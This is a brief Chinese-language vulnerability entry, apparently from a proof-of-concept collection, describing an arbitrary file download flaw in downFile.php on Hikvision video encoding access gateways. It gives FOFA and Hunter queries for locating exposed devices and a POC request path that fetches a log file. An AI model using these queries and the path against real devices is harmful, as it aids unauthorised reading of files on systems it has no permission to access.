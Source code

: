 # HiKVISION 视频编码设备接入网关 downFile.php 任意文件下载漏洞

## 网络测绘

fofa: app="HIKVISION-视频编码设备接入网关"

hunter: app.name="Hikvision 海康威视视频编码设备接入网关"

## POC / EXP

```
/serverLog/downFile.php?fileName=default.log
```